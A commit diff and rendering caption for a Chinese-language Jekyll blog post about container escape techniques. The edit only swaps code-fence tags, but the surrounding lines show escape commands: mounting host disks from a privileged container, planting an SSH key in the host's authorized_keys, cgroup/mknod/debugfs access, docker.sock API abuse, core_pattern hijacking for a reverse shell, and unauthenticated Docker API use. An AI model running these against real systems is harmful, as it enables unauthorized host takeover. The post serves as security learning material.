

Before and after one commit to Fun0nydg/Fun0nydg.github.io, a Jekyll site: the page built from _posts/2021-05-28-container-escape-learning.md, in a window 1280 px wide and 1400 px high, scrolled down 6572 px. Shown: the whole window, without its empty margins (213-1026 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2021-05-28-container-escape-learning.md

````diff
--- a/_posts/2021-05-28-container-escape-learning.md
+++ b/_posts/2021-05-28-container-escape-learning.md
@@ -50,7 +50,7 @@ Time Namespace---系统时间
 ### debugfs
 debugfs是一个简单易用基于RAM的文件系统，主要是为了方便内核开发人员进行调试，可以让内核开发人员简单的将信息提供给用户空间，debugfs比较偏底层，常用于恢复文件。
 ## 0x02 判断容器环境
-```bash
+```console
 cat /proc/1/mountinfo | grep docker
 ls -al .dockerenv
 mount | grep docker
@@ -69,12 +69,12 @@ like running Docker within Docker.
 
 ### 挂载设备逃逸
 首先我们创建一个特权容器，这里选用ubuntu
-```bash
+```console
 sudo docker run -it --privileged --name=test1 ubuntu /bin/bash
 ```
 在特权容器下，我们的权限比较大，可以将宿主机的设备挂载到容器中，这样便可以操作宿主机的任意文件，进行逃逸。
 查看宿主机的分区情况:
-```bash
+```console
 fdisk -l
 ```
 显示出的信息如下
@@ -85,11 +85,11 @@ Sector size (logical/physical): 512 bytes / 512 bytes
 I/O size (minimum/optimal): 512 bytes / 512 bytes
 ```
 知道了分区情况之后，就容易多了，我们创建一个目录，将/dev/xxx挂载到test/目录中，这时候我们操作test目录也就是操作宿主机的根目录：
-```bash
+```console
 mkdir test && mount /dev/xxx
 ```
 将一台攻击机的ssh key下载到容器内，写到/root/.ssh/下:
-```bash
+```console
 cd /test/root/.ssh
 cp authorized_keys authorized_keys1 #复制原有的ssh key
 cat /id_rsa.pub >> ./authorized_keys
@@ -135,7 +135,7 @@ release_agent （仅在 root group 中出现）
 >The devices subsystem allows or denies access to devices by tasks in a cgroup.
 
 大概意思是devices子系统允许或者拒绝cgroup中的任务访问设备,其中我们可以通过在devices.allow添加允许访问，在devices.deny中移除。参考[kernel官网](https://www.kernel.org/doc/Documentation/cgroup-v1/devices.txt)
-```bash
+```console
 An entry is added using devices.allow, and removed using
 devices.deny.  For instance
 
@@ -155,15 +155,15 @@ will add the 'a *:* rwm' entry to the whitelist.
 ```
 接下来我们在本地实验：
 首先在特权容器内创建一个cgroup devices子系统:
-```bash
+```console
 mkdir /tmp/test2 && mount -t cgroup -o devices devices /tmp/test2
 ```
 之后我们进入这个特权容器的目录:
-```bash
+```console
 cd /tmp/test2/docker/df680d1eeabe74c0aab5dce1615a80bbf6855b2376c34f9ec1727885548263a1
 ```
 修改devices.allow添加白名单，这样我们可以访问所有设备文件
-```bash
+```console
 echo a > devices.allow
 ```
 返回到根目录，使用mknod创建设备文件,再用debugfs进行访问，关于mknod命令:
@@ -171,17 +171,17 @@ echo a > devices.allow
 mknod 命令的第一种形式只能由 root 用户或系统组成员执行。在第一种形式中，使用了b 或 c 标志。b 标志表示这个特殊文件是面向块的设备（磁盘、软盘）。c 标志表示这个特殊文件是面向字符的设备（磁带，键盘）。
 
 这里我们只需要了解第一种形式。
-```bash
+```console
 cd /
 mknod test b 253 0 #创建一个与宿主机相同设备号的设备文件
 ```
 
 注意，这里的主设备号是253，次设备号是0，不同的宿主机的环境可能不一样，对于k8s集群的容器环境，参考腾讯蓝军的方法，获取主次设备号可以从/proc/self/mountinfo中的 /etc/hosts， /dev/termination-log，/etc/resolv.conf， /etc/hostname 得到；由于我的测试环境是单一容器，无法在mountinfo信息中找到从宿主机挂载到容器内的路径，我的方法是：
-```bash
+```console
 df -l #获取到容器内的挂载信息，查看挂载到/etc/hosts的Filesystem
 ```
 找到了宿主机的文件系统，再去mountinfo(如果docker中没有需要将/dev/xxx挂载到容器内)里面去查看，就可以获取到主次设备号，当创建好了设备文件，我们可以通过debugfs去访问：
-```bash
+```console
 debugfs -w test
 ```
 debugfs中可以使用cat命令，读取宿主机配置文件信息，进行后续操作。
@@ -192,7 +192,7 @@ debugfs中可以使用cat命令，读取宿主机配置文件信息，进行后
 ### /var/run/docker.sock挂载逃逸
 当挂载了docker.sock，我们可以创建一个特权容器进行逃逸，也就是docker in docker。
 首先我们创建一个测试容器:
-```bash
+```console
 sudo docker run -it -v /var/run/docker.sock:/var/run/docker.sock --name=test2 ubuntu /bin/bash
 ```
 考虑到容器内没有docker client，这时候回顾下开头讲的Docker Engine API，我们可以用curl命令去创建一个特权容器并挂载设备，写入ssh key，达到逃逸的目的，为了简化操作，实战中可以简化成一个脚本，这里参考了:
@@ -257,11 +257,11 @@ curl --silent --unix-socket /var/run/docker.sock "http://localhost/exec/${EXEC_I
 
 容器内如果挂载了proc，我们修改/proc/sys/kernel/core_pattern,将其指向我们的脚本，当运行一个崩溃的程序时，core_pattern中的脚本就会执行。
 首先创建一个测试容器:
-```bash
+```console
 sudo docker run -itd --name=test6 -v /proc:/host/proc ubuntu /bin/bash
 ```
 因为/proc/sys/kernel/core_pattern的查找是在宿主机文件系统进行的,所以我们需要获取到容器在宿主机的绝对路径，这样当程序崩溃时脚本才可以正常执行：
-```bash
+```console
 cat /host/proc/mounts | grep docker
 ```
 找到workdir，形如：
@@ -269,11 +269,11 @@ cat /host/proc/mounts | grep docker
 workdir=/var/lib/docker/overlay2/b1a84cd8ea30720f8de4114df2fb688424ff02d7afcce3e2b6c21ffc493a6616/work
 ```
 merged是docker的挂载点，那么
-```bash
+```console
 /var/lib/docker/overlay2/b1a84cd8ea30720f8de4114df2fb688424ff02d7afcce3e2b6c21ffc493a6616/merged/
 ```
 便是容器内根目录在宿主机的绝对路径。接下来我们修改core_pattern：
-```bash
+```console
 echo -e "|/var/lib/docker/overlay2/b1a84cd8ea30720f8de4114df2fb688424ff02d7afcce3e2b6c21ffc493a6616/merged/ft.sh \rcore           " > /host/proc/sys/kernel/core_pattern
 ```
 其中/tmp/1.sh是反弹shell命令，接下来我们生成一个崩溃的程序:
@@ -292,7 +292,7 @@ int main(void)
 参考:
 <https://security.tencent.com/index.php/blog/msg/174>
 docker api的默认端口是2375，如果存在未授权访问，我们就可以创建一个特权容器或者挂载目录等方式进行逃逸:
-```bash
+```console
 #列出镜像
 docker -H tcp://ip:2375 images
 
````
